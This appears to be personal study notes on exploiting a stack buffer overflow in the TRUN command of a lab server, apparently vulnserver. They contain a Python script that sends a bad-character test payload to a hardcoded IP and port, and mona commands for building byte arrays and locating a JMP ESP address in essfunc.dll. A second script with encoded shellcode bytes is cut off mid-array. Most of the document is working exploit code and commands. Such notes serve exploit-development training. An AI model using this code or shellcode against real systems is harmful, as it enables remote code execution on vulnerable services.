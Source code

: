 **Finding bad characters**
```python
#!/usr/bin/python3

import sys, socket
from time import sleep

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13"
"\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39"
"\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c"
"\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72"
"\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85"
"\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98"
"\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab"
"\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe"
"\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1"
"\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4"
"\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7"
"\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

shellcode = "A" * 2003 + "B" * 4 + badchars

  
try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))
	
	payload = "TRUN /.:/" + shellcode
	
	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```

**Automation with MONA in immunity**
- create working mona folder in C >> declare here for mona to save data
	- at bottom text prompt `!mona config -set workingfolder c:\mona`
- once working folder is set, can generate bad character list
	- `!mona bytearray -cpb "\x00"` >> outputs text file in working folder, can use in shellcode
		- also creates bin file, knows the characters it will be comparing against and looking for
- after running python script to follow ESP in dump, we can use mona instead
	- `!mona compare -f c:\mona\bytearray.bin -a 010AF9C8` >> looks for any bad characters
		- -a = ESP value
- to find jump address, do not need to go search through mona modules for JMP address
	- once module is identified (has all false) > can use `!mona jmp -r ESP -m "essfunc.dll"`
		- essfunc.dll is the identified module 

**Shellcode with manual byte encode**
```python
#!/usr/bin/python3

import sys, socket
from time import sleep

overflow = (b"\xb8\x5c\x1e\x35\x96\xd9\xc6\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
b"\x52\x31\x43\x12\x03\x43\x12\x83\x9f\x1a\xd7\x63\xe3\xcb\x95"
b"\x8c\x1b\x0c\xfa\x05\xfe\x3d\x3a\x71\x8b\x6e\x8a\xf1\xd9\x82"
b"\x61\x57\xc9\x11\x07\x70\xfe\x92\xa2\xa6\x31\x22\x9e\x9b\x50"
b"\xa0\xdd\xcf\xb2\x99\x2d\x02\xb3\xde\x50\xef\xe1\xb7\x1f\x42"
b"\x15\xb3\x6a\x5f\x9e\x8f\x7b\xe7\x43\x47\x7d\xc6\xd2\xd3\x24"
b"\xc8\xd5\x30\x5d\x41\xcd\x55\x58\x1b\x66\xad\x16\x9a\xae\xff"
```